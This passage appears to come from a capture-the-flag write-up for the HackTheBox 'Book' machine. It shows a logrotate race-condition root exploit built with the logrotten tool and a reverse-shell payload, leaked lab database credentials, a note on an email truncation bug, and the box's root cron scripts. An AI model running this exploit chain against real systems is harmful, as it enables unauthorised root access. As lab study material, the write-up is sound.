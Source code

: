 Reading more in depth of the exploitation a race condition in `logrorate` triggers the following command chain:

```bash
mv access.log.1 access.log2
mv access.log access.log.1
touch access.log # given reader:reader ownership
```

To simply explain this if between the execution of the 2nd and 3rd command we replace `/home/reader/backup` with a symlink to somewhere else, then root will create a file in any folder we want and provide us with ownership of that file. Now imaging the file being a reverse bash tcp payload.

We can do all this with logrotten. Download and tranfer [logrotten](https://github.com/whotwagner/logrotten) to the remote host.

```bash
# create the c executable
reader@book:/dev/shm$ gcc -o logrotten logrotten.c 

# still need to execute the chain of commands in the right order
reader@book:/dev/shm$ echo randomtext >> /home/reader/backups/access.log; ./logrotten -p payload.sh /home/reader/backups/access.log

# wait for a little and a callback will be triggered, note that the root shell will die quickly
```


## Beyond Root

We also find SQL credentials in `db.php`: `book_admin:I_Hate_Book_Reading`.

On `/var/www/html/admin` we can find the `index.php` and the exposing the truncation vulnerability.

On this line:

```bash
$email=trim($row["email"]," "); # developer is using trim to remove whitespaces, which means that the db doesn't itself remove (truncate) the whitespace in the email field.
if ($email==="admin@book.htb")
```

There’s a lot of automated user activity on this box that’s worth taking a look at. All of it starts at the root crontab:

```bash
root@book:~# crontab -l
...[snip]...
# m h  dom mon dow   command
@reboot /root/reset.sh
* * * * * /root/cron_root
*/5 * * * * rm /etc/bash_completion.d/*.log*
*/2 * * * * /root/clean.sh
```

On start up (`@reboot`), root will run `/root/reset.sh` (I added some whitespace for readability):

```bash
#!/bin/sh
while true
do
        /root/log.sh && sleep 5
        if [ -d /home/reader/backups2 ];then
                sleep 5 && \
                rm -rf /home/reader/backups && \
                mv /home/reader/backups2 /home/reader/backups && \
                echo '192.168.0.104 - - [29/Jun/2019:14:39:55 +0000] "GET /robbie03 HTTP/1.1" 404 446 "-" "curl"' > /home/reader/backups/access.log && \
                chown -R reader:reader /home/reader/backups && \
                rm /home/reader/backups/access.log.*
        fi
```